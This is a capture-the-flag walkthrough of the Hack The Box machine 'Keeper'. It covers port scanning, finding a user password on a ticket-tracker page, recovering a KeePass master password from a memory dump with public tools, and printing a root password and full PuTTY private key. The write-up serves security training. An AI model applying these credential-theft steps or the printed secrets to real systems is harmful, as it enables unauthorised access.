 ```yaml
---
title: "Keeper"
date: 2023-12-30
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "htb walkthrough", "hackthebox", "keeper", "writeup"]
---
```


## Enumeration

### TCP

```sh
Nmap scan report for 10.10.11.227
Host is up, received user-set (0.017s latency).
Scanned at 2024-06-29 09:28:14 AEST for 16s
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKHZRUyrg9VQfKeHHT6CZwCwu9YkJosNSLvDmPM9EC0iMgHj7URNWV3LjJ00gWvduIq7MfXOxzbfPAqvm2ahzTc=
|   256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBe5w35/5klFq1zo5vISwwbYSVy1Zzy+K9ZCt0px+goO
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80-HTTP

![screenshot](/assets/images/keeper1.png)

-> redirects to `http://tickets.keeper.htb/rt/`

add to `/etc/hosts`

![screenshot](/assets/images/keeper2.png)

```text
http-vuln-cve2011-3192: 
|   VULNERABLE:
|   Apache byterange filter DoS
|     State: VULNERABLE
|     IDs:  BID:49303  CVE:CVE-2011-3192
|       The Apache web server is vulnerable to a denial of service attack when numerous
|       overlapping byte ranges are requested.
|     Disclosure date: 2011-08-19
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192
|       https://seclists.org/fulldisclosure/2011/Aug/175
|       https://www.securityfocus.com/bid/49303
|_      https://www.tenable.com/plugins/nessus/55976
```
-> DoS

#### Gobuster

```sh
gobuster dir -u http://10.10.11.227 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -o gobusteroutput
```

#### tickets.keeper.htb/rt

![screenshot](/assets/images/keeper3.png)

- Request tracker 4.4.4+dfsg-2ubuntu1

![screenshot](/assets/images/keeper4.png)

![screenshot](/assets/images/keeper5.png)

![screenshot](/assets/images/keeper6.png)

SSH as `lnorgaard` with the credentials found in the request tracker user page. 

# Credentials
| Username  | Password     | Hash | Source |
| --------- | ------------ | ---- | ------ |
| lnorgaard | Welcome2023! |      |        |

![screenshot](/assets/images/keeper7.png)

There is an interesting file `RT30000.zip` in the user's home directory. 
The zip file contains the followings:
- `passcodes.kdbx`
- `KeePassDumpFull.dmp`

https://github.com/matro7sh/keepass-dump-masterkey

![screenshot](/assets/images/keeper8.png)

Inorgaard med

https://github.com/vdohney/keepass-password-dumper

Install .NET https://learn.microsoft.com/en-us/dotnet/core/install/linux-debian

```sh
wget https://packages.microsoft.com/config/debian/12/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
rm packages-microsoft-prod.deb

sudo apt-get update && \
sudo apt-get install -y dotnet-sdk-6.0
```

The exploit runs on `dotnet-sdk-6.0`

Installing the exploit

```sh
git clone https://github.com/vdohney/keepass-password-dumper.git
cd keepass-password-dumper
dotnet run /path/to/KeePassDumpFull.dmp
```

![screenshot](/assets/images/keeper9.png)

https://github.com/z-jxy/keepass_dump

![screenshot](/assets/images/keeper11.png)

```text
dgrd med flde
```

Searching for this gives

```text
rødgrød med fløde
```

#### unlock keepass

```sh
show -f 0 
```

![screenshot](/assets/images/keeper13.png)

![screenshot](/assets/images/keeper12.png)

```sh
Title: keeper.htb (Ticketing Server)
Uname: root
 Pass: F4><3K0nd!
  URL: 
Notes: PuTTY-User-Key-File-3: ssh-rsa
       Encryption: none
       Comment: rsa-key-20230519
       Public-Lines: 6
       AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
       8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
       EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
       Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
       FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
       LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
       Private-Lines: 14
       AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
       oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
       kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
       f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
       VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
       UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
       OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
       in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
       SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
       09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
       xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
       AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
       AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
       NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
       Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

save this output to a file removing whitespaces

![screenshot](/assets/images/keeper14.png)

### Generate the private SSH key for the root user

```sh
puttygen keeper-root -O private-openssh -o id_rsa
```

![screenshot](/assets/images/keeper15.png)

-> cannot ssh as root 

```sh
ssh root@keeper.htb id_rsa 
```
Connection refused


